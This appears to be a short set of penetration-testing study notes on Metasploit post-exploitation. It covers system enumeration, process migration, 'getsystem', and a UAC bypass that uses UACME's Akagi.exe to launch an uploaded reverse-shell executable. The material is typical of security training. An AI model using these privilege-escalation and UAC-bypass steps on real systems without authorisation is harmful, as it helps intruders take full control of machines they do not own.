 # Post Exploitation

![new.png](Pictures/a1.png)

Post exploitation step:

![new.png](Pictures/a2.png)

## Privileage escalation and maintaining access

**Windows privilege escalation**  
`sysinfo`  
windows: `systeminfo`  
Linux: `lsb_release`, `uname`, `lscpu`  
  
  
`run post/windows/manage/migrate` to let metasploit to migrate automatically.  
`migrate <process_id>` to migrate to a specific process.  
  
  
`getsystem` to highest privile in a windows system. But it doesn't always work very well.  
There are several techninque used by getsystem but to specify a specific techinique `getsystem -t 1`  
If UAC is enabled the above technique doesn't work.  
To check if UAC is enabled: `run post/windows/gather/win_privs`  
Then "bypassuac" will help to overcome UAC.  
`getprivs`  
[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME) downlaod it and upload compiled .exe file to target machine also .exe reverse shell code.  
`Akagi.exe 10 C:\Users\els\Downloads\shellcode.exe`
